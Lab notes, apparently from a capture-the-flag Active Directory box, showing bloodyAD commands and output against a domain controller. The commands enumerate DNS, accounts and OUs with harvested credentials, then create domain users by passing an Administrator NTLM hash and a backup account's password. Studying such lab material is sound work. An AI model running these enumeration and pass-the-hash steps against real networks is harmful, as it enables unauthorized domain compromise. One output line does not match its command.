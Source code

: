 get dns dump
```sh
┌──(fixit42㉿kali)-[~/boxes]
└─$ bloodyAD -d spookysec.local --host 10.10.232.197 -u svc-admin -p 'management2005' get dnsDump

zoneName: spookysec.local

SOA.PrimaryServer: attacktivedirectory.spookysec.local
SOA.zoneAdminEmail: hostmaster@spookysec.local
NS: attacktivedirectory.spookysec.local
A: 192.168.100.8
recordName: spookysec.local
...
```

get account "controls" like disabled..
```sh
┌──(fixit42㉿kali)-[~/boxes]
└─$ bloodyAD -d spookysec.local --host 10.10.232.197 -u svc-admin -p 'management2005' get object guest --attr userAccountControl

distinguishedName: CN=Guest,CN=Users,DC=spookysec,DC=local
userAccountControl: ACCOUNTDISABLE; PASSWD_NOTREQD; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
```

get OUs
```sh
┌──(fixit42㉿kali)-[~/boxes]
└─$ bloodyAD -d spookysec.local --host 10.10.232.197 -u svc-admin -p 'management2005' get children --otype organizationalUnit

distinguishedName: OU=Domain Controllers,DC=spookysec,DC=local

distinguishedName: OU=Staff,DC=spookysec,DC=local

distinguishedName: OU=Administrator,DC=spookysec,DC=local
```

get users (short form)
```sh
┌──(fixit42㉿kali)-[~/boxes]
└─$ bloodyAD -d spookysec.local --host 10.10.232.197 -u svc-admin -p 'management2005' get children --otype user              

distinguishedName: CN=Administrator,CN=Users,DC=spookysec,DC=local

distinguishedName: CN=Guest,CN=Users,DC=spookysec,DC=local

distinguishedName: CN=ATTACKTIVEDIREC,OU=Domain Controllers,DC=spookysec,DC=local
...
```

create user
```sh
┌──(fixit42㉿kali)-[~/boxes]
└─$ bloodyAD --host 10.10.232.197 -d spookysec.local -u Administrator -p :0e0363213e37b94221497260b0bcb4fc add user newuser Password123!
[+] newuser created

┌──(fixit42㉿kali)-[~/boxes]
└─$ bloodyAD --host 10.10.232.197 -d spookysec.local -u backup -p backup2517860 add user --ou "CN=Users,DC=spookysec,DC=local" newuser3 Password123!
[+] newuser2 created
```
